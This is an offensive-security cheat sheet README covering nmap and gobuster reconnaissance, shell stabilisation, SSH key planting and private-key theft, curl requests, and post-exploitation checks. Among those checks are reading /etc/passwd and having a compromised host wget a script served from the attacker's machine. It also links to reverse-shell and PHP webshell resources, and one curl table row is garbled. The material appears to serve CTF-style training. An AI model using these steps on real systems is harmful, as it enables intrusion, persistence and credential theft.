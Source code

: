 # Basement Kids

Basement kids in their free time (always) are very creative and come up with this jar of tricks. We open 1 lock per 10 tips

## Nmap 

```
# Basic scan
nmap [IP]

# Now a deep scan on the open ports
nmap -sC -sV [IP] -pP1,P2,P3

# A full scan for hidden ports
nmap -sV -sC -p- -oN [FILE] [IP]

# Other useful scan
nmap -p- -sV -sC -A --min-rate 1000 --max-retries 5 -oN [FILE] [IP]

# With nse scripts
nmap -pP1 --script vun [IP]
```

Find the nse scripts in `/usr/share/nmap/scripts/`

More on nmap cheatsheet [here](https://www.tutorialspoint.com/nmap-cheat-sheet)

## Gobuster

Gobuster can bruteforce 3 things:

1. Dirs & files
    * `gobuster dir -u <url> -w <wordlist_file.txt> -x <file_extensions>`
2. DNS subdomains
    * `gobuster vhost -v -w <wordlist.txt> -u <url> -o <output_file.txt>`
3. Subdomains in a specific domain
    * `gobuster dns -d <domain> -w <word_list.txt> -i`

## Upgrading TTY

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
$ ^Z

$ stty raw -echo
$ fg

[Enter]
[Enter]
www-data@remotehost$ echo "upgraded TTY"
```

## SSH Keys

* If you have write access to `.authorized_keys` in remote machine
    1. Write your public key to this file
    2. Login with your passwd: `ssh user@remotehost`

* If you have read access to user's private key in remote machine
    1. Copy the `priv_key` to your machine
    2. Change permissions: `chmod 600`
    3. Login with this key: `ssh -i [priv_key] [IP]`

## Curl

| **Command** | **Description** |
| --------------|-------------------|
| `curl http://inlanefreight.com -v` | GET request with `cURL`, verbose |
| `curl http://inlanefreight.com -I` | GET headers only `cURL` |
| `curl http://admin:password@inlanefreight.com/ -vvv` | `cURL` Basic Auth login |
| `curl -u admin:password  http://inlanefreight.com/ -vvv` | Alternate `cURL` Basic Auth login |
| `curl -u admin:password -L http://inlanefreight.com/` | `cURL` Basic Auth login, follow redirection |
| `curl -u admin:password 'http://inlanefreight.com/search.php?port_code=us'` | `cURL` GET request with parameter |
| `curl -d 'username=admin&password=password' -L http://inlanefreight.com/login.php` | POST request with `cURL` |
| `curl -d 'username=admin&password=password' -L  http://inlanefreight.com/login.php -v` inlanefreight.com/login.php` | `cURL` with cookie file |
| `curl -H 'Content-Type: application/json' -d '{ "username" : "admin", "password" : "password" }'` | `cURL` specify content type |
| `curl -X OPTIONS http://inlanefreight.com/ -vv` | `cURL` OPTIONS request |
| `curl -X PUT -d @test.txt http://inlanefreight.com/test.txt -vv` | File upload with `cURL` |
| `curl -X DELETE http://inlanefreight.com/test.txt -vv` | DELETE method with `cURL` |

More on curl cheatsheet: https://devhints.io/curl

## Misc

When in the shell:

* Check the id and groups:
    * `id`
* Check the sudo permissions:
    * `sudo -l`
* Search for users:
    * `cat /etc/passwd`
* Transfer files from local to remote (or vica versa):
    * In local machine: `python -m http.server 6969`
    * In remote machine: `wget http://localIP:6969/file.sh`
* Check for read/write permission on `.ssh` dirs and files
* Check for backups, if read permissions
    * Read archives without extraction: `zcat archive.tar.gz`
* Check for permission on `cron.d` and `cron.daily`
* Running shell commands in vim:
    * `:!cat /etc/passwd`
* If no passwd sudo on binaries, check [GTFO bins](https://gtfobins.github.io/)

## Wordlists & webshell

* [Dirb wordlist](https://github.com/v0re/dirb/tree/master/wordlists)
* [Dirbuster wordlist](https://github.com/daviddias/node-dirbuster/tree/master/lists)
* [SecLists](https://github.com/danielmiessler/SecLists)
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [Reverse shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
* [PHP webshell](https://github.com/tutorial0/WebShell/blob/master/Php/php-reverse-shell.php)






